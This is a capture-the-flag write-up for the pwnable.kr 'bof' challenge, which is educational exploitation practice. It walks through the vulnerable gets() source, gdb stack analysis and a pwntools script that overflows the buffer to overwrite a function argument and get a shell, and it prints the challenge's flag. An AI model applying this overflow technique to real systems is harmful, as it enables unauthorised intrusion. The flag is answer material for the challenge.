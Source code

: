 # Pwnable.kr: Toddler's Bottle
## bof

This challenge requires us to perform a simple Buffer Overflow attack for overwriting function parameters stored inside of memory.

The C source code for challenge program is shown below, where the vulnerability is the *gets(overflowme)* call since *char * gets( char * )* has no array boundary checks and just reads *stdin* until the newline character.

*bof.c*
'''
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
'''

Using this vulnerability, we can overflow the stack and overwrite the default *0xdeadbeef* parameter to be *0xcafebabe* in order to bypass the *key == 0xcafebabe* check and get a shell. The final piece to the puzzle is figuring out how big our input should be to overflow the key parameter. I used *gdb* to analyse the stack just before the *key == 0xcafebabe* comparison check, by creating a breakpoint at the CMP machine instruction.

'''
gdb-peda$ disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   **0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe**
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
gdb-peda$ b * func+40
'''

Now we can just run the program inside *gdb* and give it an input of 'AAAAAAAA' until the breakpoint to help identify where the buffer is located on the stack. The character 'A' was randomly chosen, since it has an ascii value of 41 which can help us identify where the buffer is.

'''
gdb-peda$ x/50wx $esp
0xffffd1c0:	0xffffd1dc	0xffffd2c4	0xf7fb2000	0xf7fb09e0
0xffffd1d0:	0x00000000	0xf7fb2000	0xf7ffc840	**0x41414141**
0xffffd1e0:	**0x41414141	0xf7fb2000	0x00000001	0x5655549d**
0xffffd1f0:	**0xf7fb23fc	0x00040000	0x56556ff4	0xfb2c4900**
0xffffd200:	**0x00400000	0x56556ff4	0xffffd228	0x5655569f**
0xffffd210:	0xdeadbeef	0x00000000	0x565556b9	0x00000000
0xffffd220:	0xf7fb2000	0xf7fb2000	0x00000000	0xf7df97e1
0xffffd230:	0x00000001	0xffffd2c4	0xffffd2cc	0xffffd254
0xffffd240:	0x00000001	0x00000000	0xf7fb2000	0x00000000
0xffffd250:	0xf7ffd000	0x00000000	0xf7fb2000	0xf7fb2000
0xffffd260:	0x00000000	0x0122c2f7	0x41a9e4e7	0x00000000
0xffffd270:	0x00000000	0x00000000	0x00000001	0x56555530
0xffffd280:	0x00000000	0xf7fe9450
'''

The buffer starts at the top *0x41414141* entry in the stack, which is located at 4*13=52 bytes above the *0xdeadbeef* parameter. Therefore our input needs to have 52 bytes before we overflow the parameter. However, since our target system has little-endian ordering we will have to reverse our overflowing value.

We can now write our *pwn* script so that we overflow the buffer by 52 bytes then overwrite the passed parameter to the *func* call.

*bof_pwn.py*
'''
from pwn import *

payload = 52*'A' + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
'''

Hooray! We have just got our flag!

'''
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$
$ cat flag
daddy, I just pwned a buFFer :)
'''
